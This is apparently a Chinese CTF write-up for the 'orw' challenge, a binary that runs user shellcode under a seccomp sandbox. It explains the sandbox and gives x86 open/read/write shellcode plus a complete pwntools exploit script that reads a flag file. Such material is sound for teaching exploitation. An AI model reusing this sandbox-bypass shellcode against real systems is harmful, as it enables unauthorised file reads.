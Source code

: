 ## 0x001 程序分析

分析main函数，可以看到代码很简单，直接接收输入shellcode，然后转到shellcode上执行代码。这么简单？

![](1.png)

怎么可能。。。。程序开始时调用了 **orw_seccomp** 函数

![](2.png)

> seccomp 是 secure computing 的缩写，是 Linux kernel 从 2.6.23 版本引入的一种简洁的 sandboxing 机制。在 Linux 系统里，大量的系统调用（system call）直接暴露给用户态程序。但是，并不是所有的系统调用都被需要，而且不安全的代码滥用系统调用会对系统造成安全威胁。seccomp安全机制能使一个进程进入到一种“安全”运行模式，该模式下的进程只能调用4种系统调用（system call），即 read(), write(), exit() 和 sigreturn()，否则进程便会被终止。

在 **orw_seccomp** 函数中调用了两次 **prctl** 函数

> 第一次调用prctl函数 ————禁止提权 </br> 第二次调用prctl函数 ————限制能执行的系统调用只有open，write，exit

## 0x002 漏洞利用

使用checksec查看程序开启的保护

![](3.png)

可以看到程序之开启了Canary，并且有可读可写可执行的段。

使用 **seccomp-tools** 可以分析seccomp沙盒

![](4.png)

可以看到，程序中支持的系统调用只有open、read、write，那么就可以通过这三个系统调用读取flag文件的内容，然后打印出来就可以获取flag了。

执行 **sys_open("flag", 0, 0)** 的shellcode如下：
```
push 0x0
push 0x67616c66
mov ebx, esp
xor ecx, ecx
xor edx, edx
mov eax, 0x5
int 0x80
```
或
```
shellcraft.open('flag')
```

执行 **sys_read(3, buf, 0x100)** 的shellcode如下：
```
add esp, 8
mov ebx, 0x3
mov ecx, esp
mov edx, 0x100
mov eax, 0x3
int 0x80
```
或
```
shellcraft.read('eax', 'esp', 100)
```

执行 **sys_write(0, buf, 0x100)** 的shellcode如下：
```
mov ebx, 0x1
mov ecx, esp
mov edx, 0x100
mov eax, 0x4
int 0x80
```
或
```
shellcraft.write(1, 'esp', 100)
```

最终EXP如下：
```
from pwn import *

context(arch='i386', os='linux')
p = process("./orw")

shellcode = '''
push 0x0
push 0x67616c66
mov ebx,esp
xor ecx,ecx
xor edx,edx
mov eax,0x5
int 0x80
nop
add esp,8
mov ebx,0x3
mov ecx,esp
mov edx,0x100
mov eax,0x3
int 0x80
nop
mov ebx,0x1
mov ecx,esp
mov edx,0x100
mov eax,0x4
int 0x80
'''

shellcode1 = shellcraft.open('flag')
shellcode1 += shellcraft.read('eax','esp',100)
shellcode1 += shellcraft.write(1,'esp',100)

p.sendlineafter('shellcode:', asm(shellcode))
p.interactive()
```

## 0x003 疑问

在本地调试时，在bss段中无法执行代码。。